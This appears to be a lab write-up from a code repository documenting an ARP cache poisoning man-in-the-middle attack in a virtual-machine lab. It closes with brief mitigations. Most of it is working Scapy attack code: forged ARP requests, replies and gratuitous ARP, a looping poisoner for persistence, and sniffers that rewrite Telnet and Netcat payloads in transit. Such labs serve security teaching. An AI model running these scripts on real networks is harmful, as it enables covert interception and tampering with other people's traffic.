






# MiTM2 Vulnerability Report

This report documents a simulated Man-in-the-Middle (MiTM) attack performed through ARP cache poisoning in a controlled lab environment.

## Tools

- VMware
- Scapy
- Wireshark
- Telnet
- Netcat

## 1. ARP Cache Poisoning

**Description:** Poison the ARP tables of two hosts so that traffic between them is redirected through the attacker machine.

### Preliminary steps

1. Start the three virtual machines involved in the experiment.
2. Ensure that all machines can reach one another with ICMP traffic.
3. Verify connectivity by pinging the other hosts.

### ARP request

1. Run the following script on the attacker machine.

```python
#!/usr/bin/env python3
from scapy.all import *

SRC_IP = "10.9.0.6"           # B
SRC_MAC = "02:42:0a:09:00:69" # M
DST_IP = "10.9.0.5"           # A
DST_MAC = "02:42:0a:09:00:05" # A

E = Ether(src=SRC_MAC, dst=DST_MAC)
A = ARP(psrc=SRC_IP, pdst=DST_IP, hwsrc=SRC_MAC, op=1)

pkt = E / A
sendp(pkt)
```

2. The result is shown in the screenshot below.



3. The ARP table of host A is altered so that the IP of host B is associated with the attacker's MAC address.

### ARP response

1. Run the following script on the attacker machine.

```python
#!/usr/bin/env python3
from scapy.all import *

SRC_IP = "10.9.0.6"           # B
SRC_MAC = "02:42:0a:09:00:69" # M
DST_IP = "10.9.0.5"           # A
DST_MAC = "02:42:0a:09:00:05" # A

E = Ether(src=SRC_MAC, dst=DST_MAC)
A = ARP(psrc=SRC_IP, pdst=DST_IP, hwsrc=SRC_MAC, hwdst=DST_MAC, op=2)

pkt = E / A
sendp(pkt)
```

2. The attack is visible in the captured traffic.



### Gratuitous ARP

1. A gratuitous ARP can also be used to announce a forged mapping to the network.

```python
#!/usr/bin/env python3
from scapy.all import *

SRC_IP = "10.9.0.6"           # B
SRC_MAC = "02:42:0a:09:00:69" # M
DST_IP = "10.9.0.5"           # A
DST_MAC = "ff:ff:ff:ff:ff:ff" # broadcast

E = Ether(src=SRC_MAC, dst=DST_MAC)
A = ARP(psrc=SRC_IP, pdst=SRC_IP, hwsrc=SRC_MAC, hwdst=DST_MAC, op=2)

pkt = E / A
sendp(pkt)
```

### Persistence

To keep the ARP cache poisoned over time, the script should be repeated every few seconds. The following version continuously sends forged ARP packets.

```python
#!/usr/bin/env python3
from scapy.all import *
import time

print("Running ARP poisoning...")

while True:
    # Poison host B
    SRC_IP = "10.9.0.5"
    SRC_MAC = "02:42:0a:09:00:69"
    DST_IP = "10.9.0.6"
    DST_MAC = "02:42:0a:09:00:06"

    E = Ether(src=SRC_MAC, dst=DST_MAC)
    A = ARP(psrc=SRC_IP, pdst=DST_IP, hwsrc=SRC_MAC, op=1)
    sendp(E / A, verbose=0)

    # Poison host A
    SRC_IP = "10.9.0.6"
    SRC_MAC = "02:42:0a:09:00:69"
    DST_IP = "10.9.0.5"
    DST_MAC = "02:42:0a:09:00:05"

    E = Ether(src=SRC_MAC, dst=DST_MAC)
    A = ARP(psrc=SRC_IP, pdst=DST_IP, hwsrc=SRC_MAC, op=1)
    sendp(E / A, verbose=0)

    time.sleep(5)
```

## 2. MITM Attack on Telnet

**Description:** Use ARP poisoning to intercept Telnet traffic between two hosts and modify the payloads.

### Understanding IP forwarding

For the traffic to pass through the attacker machine, the attacker must either forward packets or intercept and retransmit them. In this lab, the attacker first tests the behavior with and without IP forwarding.

### Without IP forwarding

When IP forwarding is disabled, the ping from host A to host B cannot succeed because the packets are not relayed by the attacker.

```bash
ping -c 1 10.9.0.6
```



The ARP cache of host A remains incomplete and it tries to resolve the peer again by sending an ARP request. Without the poison, host B would answer and restore the correct mapping.

### With IP forwarding

When IP forwarding is enabled, the ping traffic reaches host B through the attacker, and the TTL decreases from 64 to 63. This confirms that the packet passed through the attacker host.



### Telnet attack

The following script disables IP forwarding, captures TCP traffic, and alters the payload before forwarding it. The original forwarding is restored when the script exits.

```python
#!/usr/bin/env python3
from scapy.all import *
import os

print("Disabling IP forwarding")
os.system('sysctl net.ipv4.ip_forward=0')

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

iface = "eth0"
MAC_M = get_if_hwaddr(iface)


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            newdata = bytes(b'z'[0] if (65 <= b <= 90 or 97 <= b <= 122 or 48 <= b <= 57) else b for b in data)
            send(newpkt / newdata, verbose=0)
        else:
            send(newpkt, verbose=0)

    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=0)

f = f"tcp and not ether src {MAC_M}"

try:
    sniff(iface="eth0", filter=f, prn=spoof_pkt)
except Exception:
    print("\nQuitting sniffing")
finally:
    print("Enabling IP forwarding")
    os.system('sysctl net.ipv4.ip_forward=1')
```

The screenshot below shows the normal connection first and then the corrupted traffic where the letters are replaced with `z`.



## 3. MITM Attack on Netcat

**Description:** Apply the same technique to Netcat traffic and replace a specific string in the payload.

The attacker modifies the message `Matteo` to `Zzzzzz` while the connection is being intercepted. The screenshot below shows the three stages of the exchange: normal traffic, modified traffic, and restored traffic.



```python
#!/usr/bin/env python3
from scapy.all import *
import os

print("Disabling IP forwarding")
os.system('sysctl net.ipv4.ip_forward=0')

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

iface = "eth0"
MAC_M = get_if_hwaddr(iface)


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            newdata = data.replace(b"Matteo", b"Zzzzzz")
            print(data, newdata)
            send(newpkt / newdata, verbose=0)
        else:
            send(newpkt, verbose=0)

    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=0)

f = f"tcp and not ether src {MAC_M}"

try:
    sniff(iface="eth0", filter=f, prn=spoof_pkt)
except Exception:
    print("\nQuitting sniffing")
finally:
    print("Enabling IP forwarding")
    os.system('sysctl net.ipv4.ip_forward=1')
```

## 4. Impact and Mitigation

- This lab demonstrates that ARP poisoning can be used to intercept and alter traffic in a local network.
- The attack is especially effective against unencrypted or weakly protected protocols such as Telnet and Netcat.
- Mitigation measures include static ARP entries, port security, DHCP snooping, and the use of encrypted protocols such as SSH.
